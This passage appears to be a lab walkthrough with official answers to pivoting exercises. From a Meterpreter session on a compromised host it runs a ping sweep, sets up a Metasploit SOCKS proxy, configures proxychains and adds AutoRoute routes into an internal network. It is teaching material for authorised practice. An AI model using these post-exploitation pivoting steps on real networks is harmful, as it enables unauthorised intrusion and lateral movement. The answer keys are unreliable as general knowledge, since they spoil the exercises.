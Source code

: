 ##### **Step 5: Perform Ping Sweep**
```bash
# From Meterpreter session
meterpreter > shell
Process 3006 created.
Channel 330 created.

bash -i
ubuntu@WEB01:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# Expected Output:
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.378 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.032 ms
```

#### **Question 2: AutoRoute Configuration**
**"Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format:x.x.x.x/x.x.x.x)"**

**Official Answer:** `172.16.5.0/255.255.254.0`

##### **Step 1-4: Same as Question 1** (Create payload, handler, transfer, execute)

##### **Step 5: Configure SOCKS Proxy**
```bash
# Background Meterpreter session
meterpreter > bg
[*] Backgrounding session 1...

# Configure SOCKS proxy
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > run

# Expected Output:
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

##### **Step 6: Configure Proxychains**
```bash
# Ensure /etc/proxychains.conf contains:
socks4 127.0.0.1 9050
```

##### **Step 7: Setup AutoRoute**
```bash
# Return to Meterpreter session
msf6 post(multi/manage/autoroute) > sessions -i 1
[*] Starting interaction with 1...

# Add route to target network
meterpreter > run autoroute -s 172.16.5.0/23

# Expected Output:
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.106.254
[*] Use the -p option to list all active routes
```